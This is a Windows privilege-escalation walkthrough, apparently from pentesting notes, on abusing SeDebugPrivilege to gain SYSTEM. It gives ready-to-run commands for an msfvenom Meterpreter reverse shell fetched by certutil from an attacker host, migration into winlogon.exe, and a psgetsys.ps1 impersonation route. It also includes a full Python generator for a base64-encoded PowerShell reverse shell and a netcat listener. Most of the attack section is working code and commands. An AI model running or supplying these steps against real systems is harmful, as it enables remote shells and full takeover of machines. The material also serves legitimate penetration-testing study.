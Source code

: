 ```yaml
---
legal-banner: true
---
```


### **INTRODUCTION**

In 2008 blog post on devblogs.microsoft.com has the title “If you grant somebody SeDebugPrivilege, you gave away the farm”. Basically, because a user with that privilege can debug any process (including those running as system), they can inject code into those processes and run whatever they want as that user.

### **SEDEBUGPRIVILEGE VIA METERPRETER MIGRATE**

2.  Generate the Payload:  
    `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=[IP-ADRESS] LPORT=9001 -f exe -o rev.exe`  
    
    ![](../../../img/Windows-Environment/135.png)

    **NOTE:** Host the Payload Using Python `python -m http.server 80`
    
3.  Transfer the binary to the target machine using certutil  
    `certutil -urlcache -f http://[IP-ADRESS]:80/rev.exe rev.exe`  
    
    ![](../../../img/Windows-Environment/136.png)
    
4.  Set Up Handler:  
    `msfconsole -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 9001; run"`  
    
    ![](../../../img/Windows-Environment/137.png)
    
5.  Execute the Payload:  
    `.\rev.exe`  
    
    ![](../../../img/Windows-Environment/138.png)
    
6.  Find a SYSTEM Process (e.g., winlogon.exe):  
    `ps winlogon`  
    
    ![](../../../img/Windows-Environment/139.png)

    **NOTE:** Don't forget to note the PID of the winlogon.exe process
    
7.  Migrate to the SYSTEM Process and Open a System Shell with Meterpreter  
    `migrate [PID]` , `shell`  
    
    ![](../../../img/Windows-Environment/140.png)
    

### **SEDEBUGPRIVILEGE VIA PSGETSYS.PS1**

1.  Download psgetsys.ps1 Script  
    `wget https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1`  
    
    ![](../../../img/Windows-Environment/141.png)

    **NOTE:** Host the Payload Using Python `python -m http.server 80`
    
2.  Transfer and Import psgetsys.ps1 Script  
    `certutil -urlcache -f http://[IP-ADRESS]:80/psgetsys.ps1 psgetsys.ps1`  
    
    ![](../../../img/Windows-Environment/142.png)

    **NOTE:** After downloading, import the script `Import-Module .\psgetsys.ps1`
    
3.  Identify a SYSTEM Process (e.g., winlogon.exe PID 548).  
    `(Get-WmiObject Win32_Process -Filter "Name='winlogon.exe'").ProcessId`
    
4.  Generate base64 Powershell reverse Shell with python script
    
    ```PYTHON
    #!/usr/bin/env python3
    
    import sys
    import base64
    
    def help():
        print("USAGE: %s IP PORT" % sys.argv[0])
        print("Returns reverse shell PowerShell base64 encoded cmdline payload connecting to IP:PORT")
        exit()
    
    try:
        (ip, port) = (sys.argv[1], int(sys.argv[2]))
    except:
        help()
    
    
    payload = '$client = New-Object System.Net.Sockets.TCPClient("%s",%d);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
    payload = payload % (ip, port)
    
    cmdline = "powershell -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()
    
    print(cmdline)
    ```
    
5.  Run python script  
    `python3 revshell.py 10.11.92.52 9002`  
    
    ![](../../../img/Windows-Environment/143.png)
    
6.  Impersonate and Execute Another Command with SYSTEM Privileges:  
    `ImpersonateFromParentPid -ppid 548 -command "c:\windows\system32\cmd.exe" -cmdargs "/c powershell -e [BASE64-ENCODED-COMMAND]"`
    
7.  If you encounter error 122- ERROR_INSUFFICIENT_BUFFER, it indicates the command buffer is too small. Use shorter commands or split the payload into smaller parts:  
    `ImpersonateFromParentPid -ppid 548 -command "c:\windows\system32\cmd.exe" -cmdargs "/c ping [IP-ADRESS]"`
    
8.  Run the psgetsys.ps1 Script and Use ImpersonateFromParentPid to Gain SYSTEM Privileges:  
    `ImpersonateFromParentPid -ppid 548 -command "c:\windows\system32\cmd.exe" -cmdargs "/c powershell -e [BASE64-ENCODED-COMMAND]"`
    
9.  Use a Netcat Listener to Catch the Shell :  
    `rlwrap -cAr nc -lnvp 9002`